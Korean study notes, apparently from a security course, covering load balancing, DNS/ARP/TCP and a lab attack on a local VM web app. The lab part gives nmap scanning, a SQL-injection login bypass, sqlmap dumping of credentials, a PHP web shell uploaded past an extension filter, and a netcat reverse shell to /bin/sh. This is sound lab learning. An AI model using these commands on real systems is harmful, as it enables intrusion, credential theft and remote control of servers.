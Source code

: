 # DAY_5

사용자가 시스템에 요청해서 시스템을 사용하려고 하는데 요청하는 사용자가 많아지면 과부화 생김  
그래서 사용자와 시스템 사이에 L4를 만들어 서비스를 분산하거나 애플리케이션 영역에서 L.B 요청 분산  
L4, LB는 결합 허용이 아님!  
DNS : ~~~ 쿼리 => 마스터가 있고 대체할 수 있는 세컨더리 있음  
이것처럼 LB master와 LB slaver로!  

### 하둡
누군가 요청하면 데이터 노드 쪽에 데이터 저장하거나 분산된 데이터 처리하는 거 필요 -> **네임노드** : 세컨더리 둠, 이중화 되어있다!  
데이터 노드:  

### 시험인감!!? [웹 브라우저에서 구글 사이트 접속 과정]
웹 브라우저에 google.com을 쳤을 때 페이지가 나오는 세부 흐름  
- keyword
   - DNS 스콜  
   - TCP/IP step, Gate way

``` 
1. goolecom의 IP가 뭐지?  
 **(1-1) 메모리 내에 DNS Cache를 먼저 살핀다. :ipconfig/flushdns  
   (1-2) /etc/hosts 본다.**  
    > C:\Windows\System32\drivers\etc의 host 파일에 DNS 적어놓을 수 있음   
    > 그러면 DNS 서버를 참조하는게 아니라 hosts 파일을 참조해서 한다.   

  사용자가 입력한 구글 닷컴의 ip를 알아야 함  
  * DNS 서비스에게 google.com의 IP가 무엇이지?  
    => DNS 서버에게 Query를 해야한다.(168.126.63.1)  
      
  * 실제 통신은(low level 말하는 것) MAC 주소로 통신을 한다.  
    => DNS의 IP주소를 MAC주소로 변환해서 알아야 한다. //DNS : 도메인 -> ip  
      (ARP 프로토콜로 MAC 주소를 알아온다.)    //ARP: ip -> MAC  
```
 
      #### cmd
      > **arp -a**   
      > ip 주소에 대한 MAC 주소(물리적 주소) 나옴  
      그러나 DNS에 대한 ip 주소 없음  
      
      > ipconfig  
      > 서브넷 마스크는 무슨 의미?  
      >  - 뒷자리만 다르면 하나의 네트워크에 있다.
      
      기본적으로 통신은 IP로 진행되는데 실제 통신은 MAC주소로 진행된다.  
      IP를 MAC주소로 바꾸는게 arp다.  
      
      - 게이트를 통해 DNS 서버로 가야함!!!  
      - 서브넷 마스크나 게이트웨이 없으면 어떻게 되는지, MAC주소가 무슨 역할 하는지  
      
      arp 설명 짱 잘 되어 있음: https://medium.com/pocs/tcp-ip-%EC%9D%B4%EB%A1%A0-arp-%EC%BA%90%EC%8B%9C-%ED%85%8C%EC%9D%B4%EB%B8%94-1e07ab2ae28d

네트워크는 계층적으로 통신함(OSI 7 Layer, TCP/IP 4 Layer)  
![layer](https://user-images.githubusercontent.com/50771111/88609141-5cf2c880-d0be-11ea-8611-cdb2d97571a1.png)

   **subnet mask**     
    (1) 같은 네트워크 영역 => ARP 테이블의 MAC주소로 통신.  
    (2) 다른 네트워크 영역 => 게이트웨이(IP)로 데이터를 보낸다.  
        (게이트웨이의 IP 주소에 대한 MAC 주소로 데이터를 보낸다.)
   
 **====> DNS 쿼리가 이루어졌다.(172.217.161.174)**


```
2. 172.217.161.174 웹서버(구글 웹서버)에 연결을 해야 한다. (TCP)
   * 웹서버는 TCP기반의 HTTP 프로토콜을 이용하고,  
     기본 포트 80 이다. //포트: 프로그램 구분 번호  
     - TCP는 연결 지향 통신(연결 된 것 처럼 쓰겠다.)   
   2-1) TCP 연결을 하기 위해 TCP 3-way handshaking.  

3. (연결이 된 후에) HTTP 요청 (GET...)  

4. HTTP Response(응답) 받고 화면에 데이터를 표시.  

5. 연결을 해제.  
```

#### 준비
> vm에 Web 깔기, kali linux 깔기

#### cmd
> ifconfig // ip 확인  

ping: icmp프로토콜, 네트워크 상태를 모니터링 하고 확인하기 위해 사용하는 프로토콜
> ping www.google.com
> ping www.naver.com
특정 서버가 살아있는지 알기 위해 ping 날렸는데 응답 있으면 살아 있는 것!  
그러나 응답이 없다고해서 죽었다고 할 수는 X, 그냥 서버가 응답 안한거 일 수도 있어서!!
> traceroute www.naver.com
> 하려고 노력은 함!!

> ping 쓰면 살았는지 죽었는지 알 수 있음!

> fping : kali linux가 사용하는 명령어  
> fping -g 10.0.2.0/24  
> 몇 개 alive 한게 있음. 10.0.2.6는 나!  
> 1은 게이트 웨이이고 2,3,3 중에 

#### 포트 스캐닝
> nmap -sT -v 10.0.2.2-4 (alive한 것들 어떤 포트 사용하고 있는지 확인)  

> telnet 10.0.2.4 80(포트번호)  

> kali -> application -> 파이어 폭스 -> 주소창에 10.0.2.4 입력  
>   ==> My Awesome Photoblog 화면 출력!!  

#### 디렉토리 리스팅
> 위에서 사진에서 마우스 우클릭 -> copy Image Location -> 주소창에 입력 -> 뒤에 이미지명 지우기  
>   => Index 파일 리스팅 됨

### [SQL Injection]
```
ID와 PW를 입력하면
id : ' OR '1' = '1--
select count(*) from user_id where id=’' OR '1' = '1’ -- and Pw=’hi’
```
- kali shell  
> sqlmap -u "http://10.0.2.9/cat.php?id=1"  //sql injection에 취약한 URL 파라미터로 던져봄

```
sqlmap -u "http://10.0.2.9/cat.php?id=1"  

sqlmap -u "http://10.0.2.9/cat.php?id=1" --current-db  
    > photoblog 확인  
    
```

포토DB의 테이블 떠보기
> sqlmap -u "http://10.0.2.9/cat.php?id=1" -D photoblog --dump  
>   조금 위로 올려보면 id/pw 나와있는거 볼 수 있음

hash 함수: 고정된 길이. 다른 입력값 -> 다른 출력값, 출력값으로 입력값 예측 불가  
근데 어떻게 풀었지!?!  
   - 중국에서 해쉬값 풀어놓은 테이블 O -> 레인보우 테이블 
   
**id/pw로 로그인 가능한거 확인함!!**

#### shell 코드 올리기
1.  shell 코드 만들기
   > vi hack.php
   > ---------------------
   > <?php
   > system($_GET['cmd']);
   > ?>
   > --------------------
   > ==> php 파일 안올라감 
   
   > 해결법: php 파일 확장자명 대문자로 바꾸기  
   > mv hack.php hack.PHP  
   > 그리고 페이지에서 add 하면 됨!!
   
#### reverse telnet
클라언트가 접속해서 서버에 명령을 보내 실행하는거지  
클라이언트가 접속해서 서버가 명령 보내 실행하는거 X  

만약 방화벽 안에 우리가 장악한 서버가 있으면! 리버스 telnet을 이용해서 제어

kali
```
> nc -lvnp 7000 실행
> lisen 상태

> 홈페이지 주소 창 뒤에 cmd=nc 10.0.2.6(칼리 IP) 7000  -e /bin/sh
>  shell 창에서 connect 된 거 볼 수 있음


#### [참고자료]
https://wikidocs.net/73468 //R 통계 기초 점추정량 보고!! 전문과정 들어가기 전에 보깅

